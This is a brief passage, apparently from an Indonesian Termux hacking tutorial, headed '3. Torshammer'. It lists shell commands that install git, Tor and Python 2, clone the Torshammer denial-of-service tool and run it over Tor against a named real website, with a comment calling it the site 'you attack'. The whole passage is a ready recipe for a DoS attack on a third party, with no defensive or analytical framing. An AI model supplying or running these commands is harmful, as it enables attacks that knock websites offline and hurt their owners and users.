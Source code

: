 —————————————————————————————
*3. Torshammer*
$ pkg update
$ pkg install git
$ Pkg install tor
$ pkg install python2
$ git clone https://github.com/dotfighter/torshammer.git
$ ls
$ cd torshammer
$ python2 torshammer.py -T -t seword.com ( web yang kalian attack )
